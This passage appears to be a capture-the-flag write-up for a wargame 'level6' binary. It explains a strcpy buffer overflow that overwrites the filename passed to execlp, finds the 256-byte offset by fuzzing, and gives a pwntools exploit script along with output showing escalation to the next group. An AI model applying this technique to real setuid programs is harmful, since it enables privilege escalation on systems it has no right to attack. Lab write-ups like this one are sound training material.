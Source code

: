 ```c
else {
    gets(buffer);
}
printf("Executing filename %s\n", filename);
execlp(filename, filename, buffer, (char *)0);
...
```

The program accepts two arguments. The first is a filename and second is a command. It checks if the filename given in the first argument is present in the directory `/var/challenge/level6` and if the file is executable. It then copies the second argument to a buffer and then execute the filename with the buffer as arguments. We can exploit the `strcpy` function to create a buffer overflow. We can use `sort` or `uniq` as the first parameter of the program since those two executables are available in the challenge directory. We can use input fuzzing to figure out an input which breaks the program.

```bash
icyfire@razor level6 → /var/challenge/level6/6 sort $(python -c "print 'A' * 260")
Checking filename /var/challenge/level6/sort
Executing filename AAAA
```

Here we can see that the `strcpy` function overflowed the buffer and somehow overwrote the filename to be executed. After a few trials we can find the exact point where the filename gets overwritten.

```bash
icyfire@razor level6 → /var/challenge/level6/6 sort $(python -c "print 'A' * 256 + 'ABCD'")
Checking filename /var/challenge/level6/sort
Executing filename ABCD
```

We can replace `ABCD` in the input to any command that we want to run. This can be achieved with the help of the following python script.

```python
import os
from pwn import process
arg = "A" * 256 + "l33t"
proc = process(argv=['/var/challenge/level6/6', 'sort', arg], env=os.environ)
print(proc.recvall().decode())
```

Running the exploit we get:

```bash
icyfire@razor level6 → python3 exploit.py
[+] Starting local process '/var/challenge/level6/6': pid 759401
[+] Receiving all data: Done (163B)
[*] Process '/var/challenge/level6/6' stopped with exit code 0 (pid 759401)
Checking filename /var/challenge/level6/sort
Executing filename l33t
Woot! Congratulations you broke level lev7!
Adding user 'icyfire' to group 'lev7' ...
Adding user icyfire to group lev7
Done
```
